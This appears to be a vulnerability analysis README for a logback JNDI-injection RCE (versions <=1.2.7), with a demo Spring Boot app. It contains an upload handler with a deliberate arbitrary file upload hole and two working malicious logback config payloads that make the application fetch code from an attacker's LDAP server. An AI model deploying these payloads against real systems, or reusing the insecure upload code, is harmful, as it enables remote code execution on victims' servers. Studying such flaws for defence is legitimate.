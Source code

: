 1. ##  Affected version

   logback-classic <=1.2.7

   ##  Environment

    SpringBoot 2.6.1 

    JDK8u111(Please note the available versions of JNDI)

   ##  Project address

   https://github.com/cn-panda/logbackRceDemo

   The project is a simple vulnerability demo environment  in springboot, The key function is **upload**:

   ```java
   public String upload(@RequestParam("file") MultipartFile file) {  
       if (file.isEmpty()) {  
           return "Upload failed, please select a file！！";  
       }  
     
       String fileName = file.getOriginalFilename();  
       String filePath = Thread.currentThread().getContextClassLoader().getResource("").getPath();;  
       System.out.println(filePath);  
       File dest = new File(filePath,fileName);  
       try {  
           file.transferTo(dest);  
           LOGGER.info("Upload succeeded!!");  
           return "Upload succeeded!!";  
       } catch (IOException e) {  
           LOGGER.error(e.toString(), e);  
       }  
       return "Upload failed!!";  
   }
   ```

   The main function of this method is to upload files.

   The configuration file of logback in the project is as follows:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/1.png?raw=true)

   The key point is the `scan` attribute, which is used by logback to periodically scan the configuration file for changes.

   If the configuration file is detected to change, it will update and load the configuration file in real time.

   In this project, I deliberately wrote a vulnerability environment with arbitrary file uploads, and then used the `scan` attribute in the loghack configuration file to cooperate with the logback vulnerability to implement RCE

   # Vulnerability analysis

   ## JNDIConnectionSource

   In logback, it is also similar to the Appender of JDBCAppender in log4j1.x —— that is **DBAppender**

   There is an interface called `ConnectionSource` in DBAppender.

   This interface provides a pluggable way to obtain a JDBC connection using the logback class of `java.sql.Connection`

   There are currently three implementation classes: `DriverManagerConnectionSource`, `DataSourceConnectionSource` and `JNDIConnectionSource`.

   Each of these three implementation classes can be used to achieve RCE.

   But unlike the other two implementation classes, the way `JNDIConnectionSource` implements RCE is more convenient, because it can implement RCE without relying on other component-dependent gadgets, and only rely on the mechanism provided by the application (JNDI), but ` DriverManagerConnectionSource` and `DataSourceConnectionSource` must rely on JDBC deserialization vulnerabilities to be able to implement RCE. The restrictions are relatively large, so I will not demonstrate here.

   **JNDIConnectionSource** is logback's own method, as you can see from the name, it obtains `javax.sql.DataSource` through JNDI, and then obtains `java.sql.Connection instance`

   In fact, you can find out by observing the code of the `getConnection` method in `JNDIConnectionSource.java`:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/2.png?raw=true)

   If dataSource is empty, then let `dataSource = lookupDataSource();`

   Then trigger `lookup` in **lookupDataSource()**:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/3.png?raw=true)

   #### Vulnerability recurrence

   First download the reproduced source code, and then run the main function of the `RceDemoApplication` project:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/4.png?raw=true)

   Then open the browser and type in the address bar: `http://localhost:8080`, you can visit the project homepage

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/5.png?raw=true)

   This means that your vulnerability environment has been built.

   Then create a configuration file of `logback-spring.xml` locally, the content of the file is as follows:

```
<configuration scan="true" scanPeriod="10 seconds" debug="true">  
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">  
       　　　　　 <encoder>  
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>  
       　　　　　 </encoder>  
       　　　</appender>  
       <appender name="DB" class="ch.qos.logback.classic.db.DBAppender">  
           <connectionSource class="ch.qos.logback.core.db.JNDIConnectionSource">  
               <jndiLocation>ldap://127.0.0.1:1389/erqtcd</jndiLocation>  
           </connectionSource>  
       </appender>  
     
       　　　<root level="DEBUG">  
       　　　　　　<appender-ref ref="STDOUT" />  
       　　　</root>  
</configuration>
```
   
   Then visit `http://localhost:8080/upload.html`, select the file and click the upload button, use BurpSuite to capture the package, you can see that the file is uploaded successfully:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/6.png?raw=true)

   After waiting ten seconds, RCE can be executed successfully

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/7.png?raw=true)

   ## insertFromJNDI

   In addition to `JNDIConnectionSource`, there is actually another configuration that can implement JNDI injection——**insertFromJNDI**

   `<insertFromJNDI>` is the configuration tag of logback, which is used to set the range of attributes. It supports obtaining attribute values through JNDI. Similarly, if you modify the content of the `<insertFromJNDI>` tag, you can also achieve JNDI injection

   When the `<insertFromJNDI>` tag is used, it means that the `begin` method in the `InsertFromJNDIAction.java` file will be called, and the `JNDIUtil.lookup` method will be used , thereby triggering the vulnerability:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/8.png?raw=true)

   ### Vulnerability recurrence

   The reproduction steps are roughly the same as in #JNDIConnectionSource, except that the payload used in the uploaded file needs to be changed, as follows:

   ```
<configuration scan="true" scanPeriod="10 seconds" debug="true">
   　　　<appender name="STDOUT" class="ch.qos.logback.core.ConsoleAppender">
       　　　　　 <encoder>
       　　　　　　　　　<pattern>%-4relative [%thread] %-5level %logger{35} - %msg %n</pattern>
       　　　　　 </encoder>
       　　　</appender>
       <insertFromJNDI env-entry-name="ldap://127.0.0.1:1389/erqtcd" as="appName" />  
   
   　　　<root level="DEBUG">
       　　　　　　<appender-ref ref="STDOUT" />
       　　　</root>
   </configuration>
   ```
   
   Upload the configuration file:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/9.png?raw=true)

   Similarly, after waiting for 10 seconds, RCE can be triggered:

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/10.png?raw=true)

   In fact, in addition to these two, the `begin` in `JMXConfiguratorAction` can also be used for malicious purposes.

   ![1.png](https://github.com/cn-panda/logbackRceDemo/blob/main/img/11.png?raw=true)

   # Summarize

   In general, the triggering method of this vulnerability is still relatively difficult, unless the following conditions can be met:

   1. The configuration file of logback can be modified or overwritten
2. Able to make the modified configuration file take effect
